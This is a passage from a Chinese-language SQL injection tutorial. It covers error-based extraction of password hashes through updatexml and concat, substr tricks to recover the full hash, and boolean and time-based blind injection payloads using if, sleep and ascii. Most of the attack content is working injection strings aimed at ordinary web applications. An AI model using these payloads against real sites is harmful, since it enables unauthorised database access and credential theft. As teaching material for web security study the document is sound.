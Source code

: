 ```bash
?id=1' and updatexml(1,(select concat(0x7e,password,0x7e) from users limit 1,1),1) -- +

#concat 也可以放在外面 updatexml(1,concat(0x7e,(select password from users limit 1,1),0x7e),1)
```



这里需要注意的是它加了连接字符，导致数据中的 md5 只能爆出 31 位，这里可以用分割函数分割出来：

```bash
substr(string string,num start,num length); #string为字符串,start为起始位置,length为长度

?id=1' and updatexml(1,concat(0x7e, substr((select password from users limit 1,1),1,16),0x7e),1) -- +
```



## **盲注**

> 场景：无回显，并且没有报错和其他显示。且如果能用布尔就不用延迟



**几个相关函数：**

```bash
regexp regexp '^xiaodi[a-z]' 匹配xiaodi及xiaodi...等
if if(条件,5,0) 条件成立 返回5 反之 返回0
sleep sleep(5) SQL语句延时执行5秒
mid mid(a,b,c)从位置 b 开始， 截取 a 字符串的 c 位
substr substr(a,b,c)从 b 位置开始， 截取字符串 a 的 c 长度
left left(database(),1)，database()显示数据库名称， left(a,b)从左侧截取 a 的前 b 位
length length(database())=8，判断数据库database()名的长度
ord=ascii ascii(x)=101，判断x的ascii码是否等于101，即email中的字母e
IFNULL() 函数用于判断第一个表达式是否为 NULL，如果为 NULL 则返回第二个参数的值，如果不为 NULL 则返回第一个参数的值。
CAST()和CONVERT()函数可用来获取一个类型的值，并产生另一个类型的值。两者具体的语法如下：CAST(value as type); CONVERT(value, type);
```



### **时间注入**

时间盲注也叫延时注入, 一般用到函数 `sleep()`, `BENCHMARK()`,还可以使用笛卡尔积(尽量不要使用,内容太多会很慢很慢)

一般时间盲注我们还需结合**条件判断函数**：

```bash
#if（expre1，result1，result2）
当 expre1 为 true 时，返回 result1，false 时，返回 result2

#盲注的同时也配合着 mysql 提供的分割函数：substr、substring、left
```

一般喜欢把分割的函数编码一下，当然不编码也行，编码的好处就是可以不用引号，常用到的就有： `ascii()`,` hex()` 等等

```
?id=1' and if(ascii(substr(database(),1,1))>115,1,sleep(5))--+

?id=1' and if((substr((select user()),1,1)='r'),sleep(5),1)--+
```
